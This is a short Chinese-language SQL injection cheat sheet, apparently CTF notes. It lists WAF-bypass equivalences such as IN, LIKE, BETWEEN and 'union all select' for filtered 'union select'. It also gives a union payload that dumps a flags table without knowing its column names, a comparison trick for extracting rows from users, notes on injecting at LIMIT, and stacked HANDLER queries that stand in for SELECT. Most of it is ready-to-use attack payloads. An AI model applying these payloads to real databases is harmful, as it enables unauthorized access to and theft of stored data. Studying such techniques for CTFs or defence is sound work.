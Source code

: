   - SELECT 1 WHERE 1 = 1 ó SELECT 1 WHERE 1 IN (1)
- SELECT 1 WHERE 1 = 1 ó SELECT 1 WHERE 1 LIKE "1"
  - SELECT 1 WHERE 1 < 10 ó SELECT 1 WHERE 1 BETWEEN (0, 10)
-   union select 被过滤 => 用union all select 来绕过





### 在不知道段名的情况下查找

```
select * from flags where id='abcdd' union select 1,(select group_concat(b,e,f,g) from ( select 1 as e,2 as f,3 as g,4 as b union select*from flags) x ),3,4;
```



```
(select 'admin','admin')>(select * from users limit 1)
```





## 注入语句备忘

### limit 处注入

条件：mysql 版本 > 5.0.0  ，<5.6.6



### 表是否存在

```
select count(*) from xxx;
```





### 查询表结构(爆字段名)



`show create table table_name;`



### handler代替select查询

```
handler FlagHere open;handler FlagHere read first;

handler users open as yunensec; #指定数据表进行载入并将返回句柄重命名
handler yunensec read first; #读取指定表/句柄的首行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
handler yunensec read next; #读取指定表/句柄的下一行数据
...
handler yunensec close; #关闭句柄
```
